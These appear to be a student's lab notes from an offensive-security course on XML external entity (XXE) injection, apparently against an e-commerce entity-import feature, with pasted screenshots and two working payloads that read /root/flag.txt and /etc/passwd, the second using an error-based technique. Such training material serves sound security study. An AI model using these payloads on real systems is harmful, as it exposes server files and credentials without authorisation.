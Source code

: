 ![[Pasted image 20240930184602.png]]

##### Labs
`OS{xxeFlagOne}
![[Pasted image 20240930193235.png]]

```xml
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe SYSTEM "file:///root/flag.txt">
]>
<entity-engine-xml>
<Product createdStamp="2021-06-04 08:15:49.363" createdTxStamp="2021-06-04 08:15:48.983" description="Giant Widget with Wheels" internalName="Giant Widget variant explosion" isVariant="N" isVirtual="Y" largeImageUrl="/images/products/WG-9943/large.png" lastUpdatedStamp="2021-06-04 08:16:18.521" lastUpdatedTxStamp="2021-06-04 08:16:18.258" primaryProductCategoryId="202" productId="XXE-0002" productName="Giant Widget with variant explosion" productTypeId="FINISHED_GOOD" productWeight="22.000000" quantityIncluded="10.000000" smallImageUrl="/images/products/WG-9943/small.png" virtualVariantMethodEnum="VV_VARIANTTREE">
<longDescription>&xxe;</longDescription>
</Product>
</entity-engine-xml>
```

![[Pasted image 20240930190241.png]]

![[Pasted image 20240930193005.png]]

![[Pasted image 20240930193142.png]]

---------------

#### 10.4.4. Error-Based Exploitation

In some scenarios we may not be able to directly retrieve the results of our XXE attack. To simulate this, let's modify our attack to use an error-based payload. If the application returns verbose error messages, we want to generate an error that will include the sensitive data from our XXE exploit.

One way to do this is to place the payload in a field that will cause a validation error. For example, the baseline "Product" example includes several attributes containing timestamps. Assuming the application validates the XML values or uses them in a database, the application might throw an error if we include a value in one of those elements that cannot be parsed as a timestamp.

Let's update our exploit payload, moving the "createdStamp" from an attribute to an element and placing our entity reference there. We'll also remove the entity reference from the "longDescription" element.

```xml
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe  SYSTEM "file:///etc/passwd">
]>
<entity-engine-xml>
<Product createdTxStamp="2021-06-04 08:15:48.983" description="Giant Widget with Wheels" internalName="Giant Widget variant explosion" isVariant="N" isVirtual="Y" largeImageUrl="/images/products/WG-9943/large.png" lastUpdatedStamp="2021-06-04 08:16:18.521" lastUpdatedTxStamp="2021-06-04 08:16:18.258" primaryProductCategoryId="202" productId="XXE-0001" productName="Giant Widget with variant explosion" productTypeId="FINISHED_GOOD" productWeight="22.000000" quantityIncluded="10.000000" smallImageUrl="/images/products/WG-9943/small.png" virtualVariantMethodEnum="VV_VARIANTTREE">
<createdStamp>&xxe;</createdStamp>
<longDescription>XXE</longDescription>
</Product>
</entity-engine-xml>
```